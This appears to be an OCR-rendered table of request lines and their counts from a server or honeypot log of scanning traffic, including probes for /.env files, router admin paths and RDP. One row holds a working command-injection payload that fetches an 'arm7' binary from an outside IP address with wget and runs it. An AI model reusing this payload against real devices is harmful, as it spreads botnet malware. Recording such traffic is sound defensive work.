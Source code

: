 |----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|   0 |                   341 | GET / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                     |
|   1 |                    49 | GET / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                     |
|   2 |                    43 | GET /.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                 |
|   3 |                    24 | GET /favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|   4 |                    23 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
|   5 |                    20 | GET /cgi-bin/luci/;stok=/locale HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                           |
|   6 |                    17 | OPTIONS / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                 |
|   7 |                    10 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                       |
|   8 |                     7 | \x03\x00\x00/*\xE0\x00\x00\x00\x00\x00Cookie: mstshash=Administr                                                                                                                                                                                                                                                                                                                                                   |
|   9 |                     7 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                       |
|  10 |                     6 | GET /geoserver/web/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                       |
|  11 |                     6 | OPTIONS / RTSP/1.0                                                                                                                                                                                                                                                                                                                                                                                                 |